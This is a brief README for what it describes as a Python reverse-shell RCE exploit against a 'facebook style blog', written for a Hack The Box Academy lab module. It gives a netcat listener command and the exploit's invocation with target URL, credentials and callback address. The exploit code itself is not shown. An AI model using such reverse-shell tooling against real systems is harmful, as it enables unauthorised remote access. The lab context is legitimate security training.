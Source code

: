 # facebook-style-blog-rce
python based revshell exploit for facebook style blog for HTB academy shell module.

# Usage: 
start listner in one terminal window : 

nc -lnvp 4444

on another terminal window, execute below command : 

python3 facebook_styled_blog_rce.py http://blog.inlanefreight.local -u 'username' -p 'Password' --lhost 'Listening Address' --lport 4444
